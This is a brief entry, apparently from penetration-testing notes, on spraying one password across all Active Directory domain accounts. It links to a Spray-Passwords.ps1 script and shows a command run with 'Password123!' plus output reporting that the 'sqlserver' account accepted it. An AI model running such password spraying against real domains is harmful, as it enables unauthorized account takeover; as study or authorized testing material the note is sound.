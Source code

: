 ```yaml
---
description: Spraying all domain accounts with a password
---
```


# Spray-Passwords.ps1

[https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1](https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)

```
\Spray-Passwords.ps1 -Pass 'Password123!'
sqlserver - Pass: Password123!
```
